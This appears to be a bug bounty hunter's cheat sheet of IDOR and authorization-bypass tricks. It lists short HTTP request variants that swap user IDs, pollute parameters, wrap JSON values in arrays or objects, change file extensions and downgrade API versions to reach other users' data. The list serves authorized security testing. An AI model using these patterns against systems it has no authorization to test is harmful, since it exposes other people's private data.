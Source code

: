 tips : 

-?uid=1245&uid=1452
-?uid[]=1245&uid[]=4526
-change request method (get post put patch delete)

-?file_id=sqggkhfgsqhdqfd4fsqdfj    : encoded base64 , decode it and change it ande encode it another time

pointers : 
flag httponly is interstenig
maybe some tokens are jwt ,try to decode them

in any edit or change request try to change the method to OPTIONS

----------------
# path traversel : 

POST /users/delete/victim_id          ->403
POST /users/delete/my_id/..victim_id  ->200

---------------

# change content type : 

Content-Type: application/xml ->
Content-Type: application/json

------------------

# swan non numeric id to numeric : 

GET /file?id=90djbkdbkdbd29dd
GET /file?id=302

-------------------

# bypass object level authorization add parameter onto the endpoit if not present by default : 

GET /api_v1/messages ->200
GET /api_v1/messages?user_id=victim_uuid ->200


-------------------

# hpp : 

GET /api_v1/messages?user_id=attacker_id&user_id=victim_id
GET /api_v1/messages?user_id=victim_id&user_id=attacker_id

----------------------------

# change file type : 

GET /user_data/2341        -> 401
GET /user_data/2341.json   -> 200
GET /user_data/2341.xml    -> 200
GET /user_data/2341.config -> 200
GET /user_data/2341.txt    -> 200

-------------------

# json pp : 

{"userid":1234,"userid":2542}

--------------
# array json : 

{"userid":123} ->401
{"userid":[123]} ->200

--------------

# json json : 

{"userid":123} ->401
{"userid":{"userid":123}} ->200

---------------------


# api version : 

GET /v3/users_data/1234 ->401
GET /v1/users_data/1234 ->200

---
GET /v1/users_data/1234,1235



-------------------

https://medium.com/@mahdisalhi0500/mastering-logic-bugs-a-checklist-for-bug-hunters-part-2-idor-6f411e90509d


---
https://x.com/techycodec08/status/1861024978466226352